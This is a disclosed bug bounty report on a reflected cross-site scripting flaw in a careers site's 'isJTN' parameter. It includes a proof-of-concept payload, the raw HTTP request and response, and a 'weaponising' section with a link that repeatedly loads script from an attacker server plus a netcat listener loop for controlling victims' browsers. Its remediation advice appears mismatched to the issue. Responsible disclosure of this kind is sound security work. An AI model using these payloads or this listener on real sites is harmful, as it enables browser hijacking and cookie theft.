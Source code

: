 # [careers.informatica.com] Reflected Cross Site Scripting to XSS Shell Possible

## Report Details
- **Report ID**: 147196
- **URL**: https://hackerone.com/reports/147196
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-06-25T14:28:47.229Z
- **Disclosed**: 2016-12-31T00:20:57.583Z

## Reporter
- **Username**: zephrfish
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
#####Description
Cross-site Scripting (XSS) refers to client-side code injection attack wherein an attacker can execute malicious scripts (also commonly referred to as a malicious payload) into a legitimate website or web application. XSS is amongst the most rampant of web application vulnerabilities and occurs when a web application makes use of unvalidated or unencoded user input within the output it generates.


#####Issue
The consultant identified that the careers page is vulnerable to reflected cross site scripting, this means that a malicious user can craft a link to compromise a user, the user simple needs to click on the link and the payload is launched. 

----------
#####Affected URLs
    https://careers.informatica.com/apply?isJTN=%3Cscript%3Eprompt(%27ZephrFish%27)%3C/script%3E

From the affected URL it can be seen that the `isJTN` parameter can be given any javascript code or HTML tags and it will execute the code within. The above payload simply launches a prompt box with the consultant's hackerone username ZephrFish. However cross site scripting can be further weaponised to hook a victim's browser and cause further damage. See the proof of concept section below for a full weaponised scenario using this reflected cross site scripting to execute client side code execution.

####Risk: **High**
This issue has been marked as high due to  the risk of compromise being on the user rather than server side, however this should still be considered as an issue and dealt with accordingly, if an attacker is able to compromise a victim's browser they can do far worse than pop an alert message. This is essentially a new form of reflected cross site scripting which is persistent to the user's browser being open.

#####Remediaton
Implement http authentication on the affected directories, or alternatively  remove the examples folder entirely to prevent the attack surface.  Consider following a lockdown procedure against the installation and updating Tomcat to a newer instance. 

#####Weaponising Cross Site Scripting
The following example demonstrates how an attacker can establish a persistent connection to a victim's browser and proceed to execute arbitrary commands on the victim's machine.

**The hook**
The victim receives a malicious link, similar to that shown below:

    https://careers.informatica.com/apply?isJTN=<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//AttackerServerIP:ANYPORT";d.body.appendChild(z)},0)</script>

Attacker Server:
The attacker runs the following code to catch the shell with netcat:

    while :; do printf "ZephrFishHackerOne>$ "; read c; echo $c | nc -vvlp PORTNUMBER >/dev/null; done

When this link is clicked on the attacker's server will catch a shell and allow the attacker to execute arbitrary commands on the victim's browser as shown in the attached screenshots, these commands can be any javascript commands including theft of cookies, redirection of victim's browser or in some cases malware delivery.

The following shows what is shown on the attacker's server when a valid connection attempt is received:

    [root@inform]# while :; do printf "ZephrFishHackerOne>$ "; read c; echo $c | nc -vvlp 533 >/dev/null; done
    ZephrFishHackerOne>$ alert('Shell')
    listening on [any] 533 ...
    connect to [ATTACKERIP] from VICTIM HOSTNAME [VICTIM BROWSERIP] 55730
     sent 15, rcvd 245


#####References

 - [OWASP: Cross Site Scripting Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

#####Request & Response
GET Request

    GET /apply?isJTN=%3Cscript%3Eprompt('ZephrFish')%3C/script%3E HTTP/1.1
    Host: careers.informatica.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Cookie: AMCV_C0B11CFE5330AAFD0A490D45%40AdobeOrg=793872103%7CMCIDTS%7C16977%7CMCMID%7C43066833403543674402896414893465241440%7CMCAID%7CNONE%7CMCAAMLH-1467332027%7C6%7CMCAAMB-1467332028%7CNRX38WO0n5BH8Th-nqAG_A; mbox=PC#1466727226198-680058.26_3#1468009316|check#true#1466799776|session#1466799715648-663873#1466801576; s_nr=1466799716120-Repeat; s_vnum=1469319227675%26vn%3D3; mktrest_end_time=1466727232954; mktrest_cookie=anonymous; wooTracker=pFDG1ZqP3HWn; _mkto_trk=id:189-ZHZ-794&token:_mch-informatica.com-1466727758906-39922; mrkto_lead="{\"requestId\":\"11ba9#1557fcb4463\",\"result\":[],\"success\":true,\"marketoCall\":\"false\"}"; do_mkto_call=false; _ga=GA1.2.935149421.1466727762
    Connection: close
    

   
Response

    HTTP/1.1 200 OK
    Content-Language: en-US
    Content-Type: text/html;charset=utf-8
    Date: Sat, 25 Jun 2016 14:14:16 GMT
    Server: Apache-Coyote/1.1
    Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
    Vary: Accept-Encoding
    Connection: Close
    Content-Length: 53097
    ---snip---
                var payload = {fileUrl: link, jobSeqNo: jobId, refNum: refNum, isQuickApply: isQuickApply,
                                actualJobId: actualJobId, title: title, location: location,
                                applySource: applySource, applyUrl: applyUrl, category: category, isJTN: "<script>prompt('ZephrFish')</script>",
                                atsApplyDataId:atsApplyDataId,atsApplyStatusId:atsApplyStatusId, applyType: applyType,
                                screenWidth: screen.width, screenHeight: screen.height}
               sendDownloadResume(payload) 
    ---snip---



## Attachments
- xss_shell_career.png
- careers-xss.png
- xss_shell_career-commands.png
